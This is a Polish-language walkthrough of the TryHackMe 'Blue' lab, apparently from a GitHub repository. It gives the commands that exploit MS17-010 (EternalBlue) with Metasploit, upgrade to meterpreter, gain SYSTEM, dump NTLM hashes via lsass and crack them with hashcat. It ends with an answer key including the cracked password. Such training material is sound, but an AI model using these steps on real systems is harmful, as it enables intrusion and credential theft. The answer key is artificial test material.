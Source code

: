 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz [profil](https://tryhackme.com/access) pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).

3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -Pn <Adress Ip> ```

Skanowanie pokazuje nam usługi i porty, na których dzialają. Spróbujmy dowiedzieć się o dystrybucji.

```$ nmap -A -T 5 <Adress Ip> -vv```

Widzimy, że maszyna jest postawiona na Windows 7.

4. Teraz musimy się dowiedzieć na co jest podatna maszyna ( ms??-??? ). Więc wpisujemy:

```$ nmap --script vuln <Adress Ip> -vv```

I widzimy smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Teraz spróbujmy uzyskać dostęp na maszynie.

6. Odpalamy [Metasploit](https://www.metasploit.com/):

```$ msfconsole```

Szukamy exploit'a na tę podatność w msf:

```$ search ms17–010```

Pokazuje nam się lista dostępnych ataków. My z racji, że znamy dystrybucję wybieramy tego na Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Musimy się dowiedzieć jakie opcje musimy uzupełnić do ataku:

```$ show options```

Widzimy RHOST, więc go uzupełniamy:

```$ set RHOSTS <Adress Ip>```

I uruchamiamy skrypt:

```$ run```

Powinniśmy uzyskać dostęp do konsoli!

W razie czego upewnij się że exploit dziąła poprawnie. Kliknij enter i powinneś widzieć shella DOS.
Spróbuj wejść w tło shell'a (CTRL + Z). Jeżeli to się nie uda może być konieczne ponowne uruchomienie maszyny (deploy), lecz przed tym spróbuj znów uruchomić skrypt i zobaczyć czy działa.

Nacisnij enter.

8. Jeżeli jeszcze nie wszedłeś do tła shella (CTRL + Z). Dowiedz się w internecie jak
przekonwertować shell'a na meterpretera w metasploit. Jaka jest nazwa modułu post, którego użyjemy.
( Dokładna ścieżka, podobna do nazwy użytego exploita )

9. Wrócmy najpierw do metasploita:

```$ background```

Zweryfikujmy czy sesja nadal istnieje:

```$ session```

Powinna nam się pokazać informacja o sesji jej typie itp.

10. Spróbujmy zmienić shella na meterpretera:

```$ use multi/manage/shell_to_meterpreter```

Uzupełnij wszystkie brakujące opcje aby przechwycić shell'a:

```
$ set LPORT 1234
$ set SESSION 1
```

Uruchom:

```$ run```

Jeżeli to nie działa spróbuj znów zrobić shell'a.

11. Zobaczmy istniejące sesje:

```$ session```

Powinniśmy zobaczyć drugą sesje, która ma w typie meterpreter.

Spróbujmy do niej się podłączyć:

```$ sessions 2```

Powinniśmy widzieć konsole meterpretera.

12. Sprawdźmy czy eskalowaliśmy do NT AUTHORITY\SYSTEM. Uruchom te polecenie w tym celu:

```$ getsystem```

Możemy swobodnie zmieniać powłoki z shell do meterpretera.

Sprawdźmy kim jesteśmy:

```
$ shell
$ whoami
```

Wróćmy do meterpretera ( CTRL + Z ).

13. To że jesteśmy systemem nie oznacza, że nasz proces też nim jest. Sprawdźmy liste działająch procesów:

```$ ps```

I zapamiętajmy id procesu (PID).

14. Zmigrujmy sobie proces lsass.exe. Mając meterpretera wpiszmy:

```$ migrate 708```

15. Zrzućmy (dump) hasła nie podstawowych użytkowników do późniejszego ich złamania.

W naszym podwyższonym shell'u (meterpreter) uruchomy polecenie:

```$ hashdump```

Spowoduje to dumpowanie wszystkich hashy haseł na komputerze jeżeli mamy do tego odpowiednie uprawnienia.

Który użytkownik nie jest defaultowy?

16. Skopiuj hashe do pliku do złamania. ( to hashe [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager)  wklej je tak jak widzisz w konsoli ).

Zorganizujmy hash do łamania. (user:hash <-- ostatni "zlepek liter" w lini po : i przed ::: )

np.
```Administrator:31d6cfe0d16(...)```

17. Ja użyje hashcat'a do złamania hashy.

``` $ hashcat -a 0 -m 1000 <NazwaPlikuZHashami>.txt <SłownikDoŁamania np. rockyou.txt>.txt --force --username --show ``` <-- show dopiero po złamaniu

Po chwili powinniśmy uzyskać hasło do Jon'a (alqfna22)

18. Teraz poszukajmy flag:

1) Pierwsza znajduje się w lokacji C:\flag1.txt

2) Następna w C:\Documents and Settings\Jon\Documents\flag3.txt

3) A ostatnia w C:\Windows\System32\config\flag2.txt

Każdą flagę można pokazać za pomocą ```type```
np. ``` type flag1.txt ```

19. To powinno być na tyle. Powodzenia!

# Uzupełnienie rubryk.

<details>
<summary>Zadanie 1.</summary>

```

  2) 3

  3) ms17-010


```
</details>

<details>
<summary>Zadanie 2.</summary>

```


  2) exploit/windows/smb/ms17_010_eternalblue

  3) RHOSTS


```
</details>

<details>
<summary>Zadanie 3.</summary>

```

  1) post/multi/manage/shell_to_meterpreter

  2) SESSION

```
</details>

<details>
<summary>Zadanie 4.</summary>

```

  1) Jon

  2) alqfna22

```
</details>

<details>
<summary>Zadanie 5..</summary>

```

  1) Wpisz flage numer 1

  2) Wpisz flage numer 2

  3) Wpisz flage numer 3 

```
</details>





